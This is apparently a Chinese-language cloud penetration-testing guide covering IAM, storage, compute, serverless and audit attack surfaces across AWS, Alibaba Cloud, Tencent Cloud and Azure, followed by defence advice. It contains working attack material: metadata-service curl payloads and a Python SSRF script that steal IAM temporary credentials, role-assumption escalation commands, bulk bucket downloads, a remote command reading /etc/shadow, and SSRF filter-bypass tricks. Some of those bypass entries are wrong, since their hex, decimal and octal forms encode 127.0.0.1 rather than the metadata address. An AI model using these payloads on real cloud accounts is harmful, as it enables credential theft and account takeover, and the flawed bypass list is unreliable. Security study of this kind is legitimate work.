

# ☁️ 云上安全渗透测试全技巧

> **云上安全渗透测试**是指针对云服务平台（如 AWS、阿里云、腾讯云、Azure、GCP 等）进行的安全评估，涵盖身份权限、存储服务、计算资源、网络配置、Serverless 函数服务与日志审计六大攻击面。本文从渗透测试视角出发，系统梳理云环境下的攻击手法与实战技巧。

---

## 📖 一、云安全概述

### 1.1 为什么云安全与传统的不同

云环境引入了**共享责任模型**（Shared Responsibility Model），安全责任由云厂商和用户共同承担。攻击面也从传统网络边界扩展到了云平台特有的 API、元数据服务、IAM 角色体系等。

| 维度 | 传统环境 | 云环境 |
|:---|:---|:---|
| 🌐 **网络边界** | 物理防火墙 + DMZ | 虚拟安全组 + VPC 网络 ACL |
| 🔑 **身份认证** | LDAP/AD 域控 | IAM 角色 + 临时凭证（STS）|
| 💾 **存储** | 本地磁盘/NAS | 对象存储（S3/OSS/COS/Blob）|
| 🧠 **计算** | 物理服务器/VM | EC2/ECS/CVM + Serverless |
| 📋 **日志** | Syslog/ELK | CloudTrail/ActionTrail/CLS |

> ⚠️ **核心区别**：云上攻击的"踩点"阶段不仅要扫端口，更要**枚举 API 资源、检测存储桶权限、利用元数据服务**。

### 1.2 云渗透测试六大攻击面

| 攻击面 | 说明 |
|:---|:---|
| 🔐 **IAM 身份与访问管理** | 权限滥用、AK/SK 泄露、角色提权 |
| 📦 **存储服务** | 公开桶、敏感数据泄露、静态网站注入 |
| 🖥️ **计算资源** | SSH/RDP 暴露、UserData 泄露、SSRF 元数据 |
| 🌐 **网络配置** | 安全组宽松、VPC 路由暴露、负载均衡配置错误 |
| 🧠 **Serverless 函数** | 触发器未授权、环境变量泄露、RCE |
| 📊 **日志与审计** | 审计未开启、日志可被关闭绕过 |

---

## 🏷️ 二、通用云服务攻击面详解

### 2.1 🔐 身份与访问管理（IAM）

IAM 是云安全的**核心命门**，获取高权限凭证≈控制整个云账号。

**常见攻击手法：**

| 手法 | 说明 |
|:---|:---|
| 🎯 **弱权限策略** | 策略设置为 `*:*`（完全控制）存在被滥用风险 |
| 🔑 **AK/SK 泄露** | AccessKey/SecretKey 泄露后可直接通过 CLI/SDK 远程控制资源 |
| 🔄 **AssumeRole 横向提权** | STS 临时凭证可用于角色切换，横向移动到高权限角色 |
| 🕵️ **枚举权限策略** | 寻找高权限角色是提权的关键步骤 |

**检测命令示例：**

```bash
# AWS - 列举所有 IAM 用户
aws iam list-users

# AWS - 查看用户附加的策略
aws iam list-attached-user-policies --user-name target-user

# AWS - 枚举 IAM 权限
./enumerate-iam.py --access-key AKIAxxx --secret-key xxx

# 阿里云 - 查看 RAM 用户权限
aliyun ram ListUsers
aliyun ram ListPoliciesForUser --UserName target-user

# 腾讯云 - 查看 CAM 用户列表
tccli cam ListUsers
```

> 💡 **渗透技巧**：拿到 AK/SK 后第一件事不是直接操作资源，而是用 `enumerate-iam` 或手动调用 `iam:SimulatePrincipalPolicy` 枚举当前凭证的权限范围，确定能做什么再动手。

### 2.2 📦 存储服务风险

云对象存储（S3/OSS/COS/Blob）是最常见的数据泄露源头。

**攻击手法：**

| 手法 | 说明 |
|:---|:---|
| 🔓 **公有读/写** | 存储桶设置为公有读/写，直接下载敏感文件 |
| 🎭 **静态网站托管注入** | 上传恶意 HTML/JS 用于钓鱼或 XSS 攻击 |
| 🔍 **桶名枚举** | 通过 DNS 解析或 API 枚举公开存储桶 |

**实战命令：**

```bash
# AWS S3 - 列出所有桶
aws s3 ls

# AWS S3 - 检查桶权限
aws s3api get-bucket-acl --bucket target-bucket

# AWS S3 - 同步下载桶内所有文件
aws s3 sync s3://target-bucket ./local-folder

# 阿里云 OSS - 列出桶
aliyun oss ls

# 阿里云 OSS - 检查权限
aliyun oss get-bucket-acl bucket-name

# 阿里云 OSS - 下载文件
aliyun oss cp oss://bucket-name/object ./local

# 腾讯云 COS - 列出桶
tccli cos GetService

# 腾讯云 COS - 检查权限
tccli cos GetBucketAcl --Bucket bucket-name
```

> ⚠️ **关键检测点**：检查桶的 `公共访问块（Block Public Access）` 是否开启，很多泄露事件发生在用户不知情地将桶设为 public 后。

### 2.3 🖥️ 计算资源攻击面

云主机（EC2/ECS/CVM）是渗透测试中"立足点"的主要来源。

**核心攻击向量：**

| 攻击向量 | 说明 |
|:---|:---|
| 🚪 **SSH/RDP 暴露** | 云主机公网暴露 22/3389 端口，可尝试暴力破解 |
| 📄 **UserData 泄露** | 云主机初始化脚本中常包含明文密码、AK/SK |
| 🕳️ **SSRF + 元数据服务** | SSRF 漏洞利用 `169.254.169.254` 获取 IAM 临时凭证 |
| 🖼️ **镜像/快照泄露** | 自定义 AMI/镜像/快照可能包含后门或敏感数据 |

**元数据服务利用（SSRF 核心）：**

云平台的元数据服务地址均为 `169.254.169.254`，但各平台路径不同：

| 平台 | 元数据端点 |
|:---|:---|
| **AWS** | `http://169.254.169.254/latest/meta-data/` |
| **Azure** | `http://169.254.169.254/metadata/instance?api-version=2021-02-01` |
| **GCP** | `http://169.254.169.254/computeMetadata/v1/` |
| **阿里云** | `http://100.100.100.200/latest/meta-data/` |
| **腾讯云** | `http://metadata.tencentyun.com/latest/meta-data/` |

**实战 Payload：**

```bash
# AWS - 获取 IAM 角色名称
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

# AWS - 获取临时凭证
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME/

# Azure - 获取访问令牌
curl -H "Metadata:true" \
  "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"

# 阿里云 - 获取临时凭证
curl http://100.100.100.200/latest/meta-data/ram/security-credentials/ROLE_NAME

# 腾讯云 - 获取临时凭证
curl http://metadata.tencentyun.com/latest/meta-data/cam/security-credentials/ROLE_NAME
```

> 💡 **渗透技巧**：SSRF + 元数据服务是**云渗透中最经典的提权链**。若发现 Web 应用有 SSRF 漏洞，第一时间尝试访问 `169.254.169.254`，拿到 IAM 凭证后可控制整个云账号资源。

### 2.4 🌐 网络配置错误

| 配置错误 | 风险 |
|:---|:---|
| 安全组入站规则为 `0.0.0.0/0` | 任意 IP 可访问内部服务 |
| VPC 路由配置疏忽 | 暴露内网服务到公网 |
| ELB/CLB 配置不当 | 后端服务路径泄露 |

### 2.5 🧠 Serverless 函数服务

| 攻击向量 | 说明 |
|:---|:---|
| 🔓 **触发器未授权** | 函数触发器（如 COS 上传、API 调用）允许任意调用 |
| 🔑 **环境变量泄露** | 函数环境变量中硬编码密钥/密码 |
| 💥 **远程代码执行** | 文件上传触发执行逻辑可构造 RCE |

**检测方法：**

```bash
# AWS Lambda - 列举函数
aws lambda list-functions

# AWS Lambda - 获取函数配置（含环境变量）
aws lambda get-function-configuration --function-name target-function

# 阿里云 FC - 列举服务
aliyun fc ListServices

# 腾讯云 SCF - 列举函数
tccli scf ListFunctions
```

### 2.6 📊 日志与审计

| 风险 | 说明 |
|:---|:---|
| ❌ **审计未开启** | 未开启 CloudTrail/ActionTrail/CLS，攻击行为无迹可寻 |
| 🚫 **可关闭审计** | 权限过高时可关闭日志记录绕过审计 |

---

## 🔧 三、AWS 渗透测试专项

### 3.1 AWS 核心服务映射

| 服务类别 | AWS 服务名 |
|:---|:---|
| 🖥️ 计算 | EC2, Lambda, ECS, EKS |
| 💾 存储 | S3, EBS, EFS, RDS |
| 🔐 身份 | IAM, Cognito, STS |
| 🌐 网络 | VPC, Security Group, ELB, API Gateway |
| 📋 审计 | CloudTrail, CloudWatch, Config |

### 3.2 IAM 权限枚举

```bash
# 安装 enumerate-iam
pip install enumerate-iam

# 枚举当前凭证权限
enumerate-iam --access-key AKIAxxx --secret-key xxx

# 查看指定用户的权限边界
aws iam get-user-policy --user-name admin --policy-name AdminPolicy

# 模拟策略权限
aws iam simulate-principal-policy \
  --policy-source-arn arn:aws:iam::123456789012:user/admin \
  --action-names s3:ListAllMyBuckets ec2:DescribeInstances
```

### 3.3 S3 深度检测

```bash
# 批量检测公开桶
# 工具：s3-inspector、bucket-stream

# 列出所有桶并检查 ACL
for bucket in $(aws s3 ls | awk '{print $3}'); do
  echo "Checking $bucket..."
  aws s3api get-bucket-acl --bucket $bucket
  aws s3api get-bucket-policy --bucket $bucket
done

# 检查是否启用了 Block Public Access
aws s3control get-public-access-block --account-id 123456789012
```

### 3.4 EC2 元数据 SSRF 提权

**攻击链：** SSRF 漏洞 → 访问元数据服务 → 获取 IAM Role 凭证 → 使用凭证枚举资源 → 横向移动/数据窃取

```python
# Python 脚本 - 通过 SSRF 获取 AWS 元数据
import requests

# 假设存在 SSRF 的 URL
ssrf_url = "http://target.com/fetch?url="

# Step 1: 获取 IAM 角色名
role_url = ssrf_url + "http://169.254.169.254/latest/meta-data/iam/security-credentials/"
resp = requests.get(role_url)
role_name = resp.text.strip()

# Step 2: 获取临时凭证
cred_url = ssrf_url + f"http://169.254.169.254/latest/meta-data/iam/security-credentials/{role_name}"
resp = requests.get(cred_url)
print(resp.json())
```

### 3.5 AWS 渗透测试工具链

| 工具 | 用途 |
|:---|:---|
| **Scout Suite** | 多云安全审计 |
| **Pacu** | AWS 渗透测试框架（开源） |
| **Prowler** | AWS 安全最佳实践检查 |
| **enumerate-iam** | IAM 权限枚举 |
| **SkyArk** | Shadow Admin 发现 |
| **Principal Mapper** | IAM 分析（权限提升路径） |
| **CloudSploit** | 云安全扫描 |

---

## 🟥 四、阿里云渗透测试专项

### 4.1 账号权限（RAM）

| 风险点 | 说明 |
|:---|:---|
| RAM 用户拥有 AdminAccess | 子账号拥有管理员权限 |
| AccessKey 泄露 | AK 泄露后可直接通过 CLI 控制资源 |
| RAM 角色切换 | 利用角色切换滥用实现提权 |

**常用命令：**

```bash
# 配置阿里云 CLI
aliyun configure

# 列举所有 RAM 用户
aliyun ram ListUsers

# 查看用户权限
aliyun ram ListPoliciesForUser --UserName target

# 查看角色
aliyun ram ListRoles

# 切换角色
aliyun sts AssumeRole --RoleArn acs:ram::xxx:role/AdminRole --RoleSessionName test
```

### 4.2 OSS 存储安全

```bash
# 枚举 OSS 桶
aliyun oss ls

# 查看桶权限
aliyun oss get-bucket-acl my-bucket

# 递归下载
aliyun oss cp oss://my-bucket/ ./local/ --recursive

# 设置桶权限（利用已有凭证）
aliyun oss set-bucket-acl my-bucket private
```

### 4.3 ECS 实例攻击

| 攻击点 | 具体手法 |
|:---|:---|
| SSH 暴力破解 | 公网 22 端口字典爆破 |
| UserData 泄露 | 获取实例自定义数据中的密钥 |
| 镜像后门 | 使用自定义镜像创建实例植入后门 |
| 元数据服务 | 访问 `100.100.100.200` 获取 RAM 角色凭证 |

**获取 UserData：**

```bash
# 查看 ECS 实例 UserData
aliyun ecs DescribeUserData --InstanceId i-xxx

# 通过云助手执行命令
aliyun ecs RunCommand \
  --InstanceId.1 i-xxx \
  --CommandId c-xxx \
  --Type RunShellScript \
  --CommandContent "cat /etc/shadow"
```

### 4.4 函数计算（FC）

```bash
# 列举函数
aliyun fc ListFunctions --serviceName my-service

# 获取函数代码
aliyun fc GetFunction --serviceName my-service --functionName my-function

# 查看函数配置（环境变量可能包含密钥）
aliyun fc GetFunctionConfiguration --serviceName my-service --functionName my-function
```

---

## 🟦 五、腾讯云渗透测试专项

### 5.1 访问控制（CAM）

```bash
# 配置 CLI
tccli configure

# 列举用户
tccli cam ListUsers

# 列举策略
tccli cam ListPolicies

# 切换角色（AssumeRole）
tccli sts AssumeRole \
  --RoleArn qcs::cam::uin/xxx:roleName/AdminRole \
  --RoleSessionName test
```

### 5.2 COS 存储

```bash
# 列出所有存储桶
tccli cos GetService

# 获取对象列表
tccli cos GetBucket --Bucket target-bucket-1250000000

# 下载对象
tccli cos GetObject \
  --Bucket target-bucket-1250000000 \
  --Key sensitive-data.zip \
  --OutputFile ./sensitive-data.zip

# 检查桶权限
tccli cos GetBucketAcl --Bucket target-bucket-1250000000
```

### 5.3 CVM 云主机

```bash
# 列举 CVM 实例
tccli cvm DescribeInstances

# 获取实例详情
tccli cvm DescribeInstanceAttribute --InstanceId ins-xxx

# 查看实例密码
tccli cvm DescribeInstancePassword --InstanceId ins-xxx
```

---

## 🟩 六、Azure 渗透测试专项

### 6.1 Azure AD

| 攻击点 | 说明 |
|:---|:---|
| Client_ID / Client_Secret 硬编码泄露 | 应用注册凭证泄露 |
| 应用权限过大 | 应用注册对象权限过高 |
| Azure AD Connect | 可导出本地 AD 用户 Hash |

```bash
# 登录 Azure
az login

# 列举所有 VM
az vm list

# 列举存储账户
az storage account list

# 获取 Key Vault 密钥
az keyvault secret list --vault-name my-vault

# 通过 Managed Identity 获取令牌
curl "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -H "Metadata:true"
```

### 6.2 Azure 工具链

| 工具 | 用途 |
|:---|:---|
| **MicroBurst** | Azure 渗透测试 PowerShell 工具包 |
| **AzureHound** | Azure AD 血缘分析 |
| **ROADtools** | Azure AD 操作和令牌分析 |
| **Stormspotter** | Azure 攻击路径可视化 |

---

## 🛠️ 七、元数据服务 SSRF 全面利用

### 7.1 各平台元数据端点速查

| 平台 | 元数据端点 | 获取凭证路径 |
|:---|:---|:---|
| **AWS** | `http://169.254.169.254/latest/` | `meta-data/iam/security-credentials/{role}` |
| **Azure** | `http://169.254.169.254/metadata/` | `identity/oauth2/token?api-version=2018-02-01&resource={resource}` |
| **GCP** | `http://169.254.169.254/computeMetadata/v1/` | `instance/service-accounts/default/token` |
| **阿里云** | `http://100.100.100.200/latest/` | `meta-data/ram/security-credentials/{role}` |
| **腾讯云** | `http://metadata.tencentyun.com/latest/` | `meta-data/cam/security-credentials/{role}` |
| **华为云** | `http://169.254.169.254/openstack/latest/` | `securitykey` |

### 7.2 SSRF 绕过技巧

当目标限制了内网地址访问时，可以使用以下绕过方式：

```text
# 域名绕过
http://instance-data.local → 解析到 169.254.169.254
http://metadata.nicobuster → 解析到 169.254.169.254

# DNS 重绑定
http://1e100.xyz → DNS 轮询解析到 169.254.169.254

# URL 解析差异
http://169.254.169.254 （直接访问）
http://0x7f000001 （十六进制）
http://2130706433 （十进制）
http://0177.0.0.1 （八进制）
http://[::ffff:169.254.169.254] （IPv6 映射）

# HTTP 头操作
X-Forwarded-For: 169.254.169.254
X-Forwarded-Host: 169.254.169.254
```

---

## 🛡️ 八、云安全防御措施

### 8.1 IAM 最小权限原则 ⭐

> 最有效的防御方法，**永远不要给用户或角色超出需要的权限**。

**最佳实践：**
- ❌ 禁止使用 `*:*` 通配符策略
- ✅ 使用 AWS Managed Policies 或自定义细粒度策略
- ✅ 定期使用 IAM Access Analyzer 检查权限
- ✅ 使用条件键（Condition）限制访问来源 IP、VPC

### 8.2 存储桶安全配置

| 措施 | 说明 |
|:---|:---|
| ✅ **启用 Block Public Access** | 在账户级别禁止公开访问 |
| ✅ **禁用 ACL（仅使用 Policy）** | 统一使用 IAM Policy 管理 |
| ✅ **启用服务端加密** | SSE-S3、SSE-KMS 加密存储数据 |
| ✅ **启用访问日志** | 记录所有存储桶操作 |

### 8.3 网络层防御

| 措施 | 说明 |
|:---|:---|
| ✅ **安全组最小化** | 仅开放必要端口，限制来源 IP |
| ✅ **VPC 端点（VPC Endpoint）** | 通过内网访问云服务，避免公网暴露 |
| ✅ **WAF 部署** | 在 API Gateway/CloudFront/ALB 前部署 WAF |
| ✅ **网络隔离** | 使用 VPC 对等连接、Transit Gateway 实现网络隔离 |

### 8.4 日志与监控

| 措施 | 说明 |
|:---|:---|
| ✅ **启用 CloudTrail / ActionTrail** | 记录所有 API 调用 |
| ✅ **设置告警规则** | 对敏感操作设置告警（如关闭日志、创建高权限用户）|
| ✅ **日志不可篡改** | 日志保存到 S3 并启用 Object Lock |

### 8.5 密钥管理

| 措施 | 说明 |
|:---|:---|
| ✅ **使用临时凭证（STS）** | 避免长期有效的 AK/SK |
| ✅ **定期轮换密钥** | 使用 Secrets Manager / KMS 自动轮换 |
| ✅ **禁止硬编码** | 使用环境变量 + 密钥管理服务 |

---

## 📋 九、云渗透测试检测流程

### 9.1 测试步骤全流程



### 9.2 关键检测点清单

- [x] 检查 **所有用户的 IAM 权限**，是否存在 `AdministratorAccess` 或 `*:*`
- [x] 检查 **存储桶的公网访问设置**（S3/OSS/COS/Blob）
- [x] 检查 **安全组规则**，是否存在 `0.0.0.0/0` 的入站规则
- [x] 检查 **UserData/Cloud-init 脚本** 是否包含明文密钥
- [x] 检查 **SSRF 漏洞**能否访问元数据服务
- [x] 检查 **Serverless 函数环境变量** 是否泄露密钥
- [x] 检查 **审计日志是否开启**，是否可被关闭
- [x] 检查 **AK/SK 是否硬编码**在代码或配置文件中
- [x] 检查 **镜像/快照**是否可被公开访问
- [x] 检查 **临时凭证（STS）** 是否权限过大

### 9.3 云平台服务映射速查

| 功能 | AWS | Azure | GCP | 阿里云 | 腾讯云 |
|:---|:---|:---|:---|:---|:---|
| 🖥️ 计算 | EC2 | VM | Compute Engine | ECS | CVM |
| 💾 对象存储 | S3 | Blob | Cloud Storage | OSS | COS |
| 🧠 Serverless | Lambda | Functions | Cloud Functions | FC | SCF |
| 🔐 身份 | IAM | Azure AD | IAM | RAM | CAM |
| 🌐 负载均衡 | ELB/ALB | Load Balancer | Cloud LB | SLB | CLB |
| 📋 审计 | CloudTrail | Log Analytics | Cloud Audit | ActionTrail | CLS |
| 🔑 密钥管理 | KMS | Key Vault | Cloud KMS | KMS | KMS |

---

## 🔗 关联文件

| 文件 | 关联说明 |
|:---|:---|
| [安全配置错误（A05）全技巧](24-a05-security-misconfiguration.md) | 云平台配置错误是 A05 的典型场景 |
| [失效的访问控制（A01）全技巧](21-a01-broken-access-control.md) | IAM 权限滥用属于 A01 |
| [服务端请求伪造SSRF（A10）全技巧](15-ssrf.md) | 云环境 SSRF + 元数据服务提权 |
| [命令注入全技巧](11-command-injection.md) | 云主机 RCE 后执行系统命令 |
| [安全日志与监控失效（A09）全技巧](28-a09-logging-monitoring.md) | 审计日志配置不当 |
